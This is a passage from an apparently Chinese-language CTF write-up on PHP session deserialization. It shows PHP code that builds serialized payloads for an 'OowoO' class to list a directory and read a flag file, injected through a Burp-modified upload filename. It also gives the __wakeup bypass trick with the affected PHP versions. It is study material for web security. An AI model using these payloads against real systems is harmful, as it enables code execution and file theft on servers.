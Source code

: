 接下来构造序列化payload

```
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
class OowoO
{
    public $mdzz='print_r(scandir(dirname(__FILE__)));';
}
$obj = new OowoO();
echo serialize($obj);
?>
```

由于采用Burp发包，为防止双引号被转义，在双引号前加上`\`，除此之外还要加上`|`

在这个页面随便上传一个文件，然后抓包修改`filename`的值

[![img](https://github.com/Y4tacker/Web-Security/raw/main/Unserialize/PHP/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/12.png)](https://github.com/Y4tacker/Web-Security/blob/main/Unserialize/PHP/php反序列化/12.png)

可以看到`Here_1s_7he_fl4g_buT_You_Cannot_see.php`这个文件，flag肯定在里面，但还有一个问题就是不知道这个路径，路径的问题就需要回到phpinfo页面去查看

[![img](https://github.com/Y4tacker/Web-Security/raw/main/Unserialize/PHP/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/13.png)](https://github.com/Y4tacker/Web-Security/blob/main/Unserialize/PHP/php反序列化/13.png)

因此我们只需要把payload，当中改为`print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));`即可获取flag

```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
class OowoO
{
    public $mdzz='print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));';
}
$obj = new OowoO();
echo serialize($obj);
?>
```

## wakeup绕过

### 总结

绕过的条件：删除掉序列化数据的最后一个 `}` 或者在 最后两个 `}` 中间加上 `;`

影响版本：

Success:
7.0.15 - 7.0.33, 7.1.1 - 7.1.33, 7.2.0 - 7.2.34, 7.3.0 - 7.3.28, 7.4.0 - 7.4.16, 8.0.0 - 8.0.3